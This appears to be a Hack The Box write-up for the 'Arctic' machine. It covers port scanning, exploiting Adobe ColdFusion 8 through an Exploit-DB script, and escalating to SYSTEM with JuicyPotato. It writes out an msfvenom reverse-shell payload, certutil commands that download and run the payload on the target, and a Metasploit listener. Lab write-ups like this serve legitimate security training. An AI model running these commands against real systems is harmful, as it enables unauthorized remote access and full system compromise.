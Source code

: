 # ARCTIC

Date: 2024-12-12
Target: `10.10.10.11`

Save in a target file:

```bash
echo 10.10.10.11 > target
```

Added also in the hosts file as `artic.htb`.

## Gain Access

### Port Scan Enumeration

I run a full tcp ports scan:

```bash
nmap -p- -v -iL=target -oN nmap/tcp_ports.txt
```

I discovered the following open ports:

* `135`
* `8500`
* `49154`

Performing an aggressive ports scan:

```bash
nmap -p135,8500,49154 -v -iL target -A -oN nmap/target_ports.txt -oX nmap/target_ports.txt

```

I haven't get any more information.
I tried to enumerate them with `telnet` and `nc`, but they did't give me any information.
On the browser I got a web page: `http://artic.htb:8500/`.

### HTTP - Port 8500

I found an administrator login page at: `http://artic.htb:8500/CFIDE/administrator/` and its an **Adobe Coldfusion 8**.
I search for a possibile vulnerability over the internet and I found it, then I used `searchsploit` and I found the same:

```bash
searchsploit Adobe Coldfusion 8
searchsploit -m 50057
```

![image](https://github.com/user-attachments/assets/1fe12b8e-0136-423b-925b-93fe40f8aebd)

I changed some configuration inside the file and I got the shell:

![image](https://github.com/user-attachments/assets/0ad09701-8968-4c4c-9f45-80530f2a3e6b)

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on your local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   certutil -UrlCache -f http://<IP>:8081/JuicyPotato.exe JuicyPotato.exe
   certutil -UrlCache -f http://<IP>:8081/shell.exe shell.exe
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

***

## Resources

* [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)

***
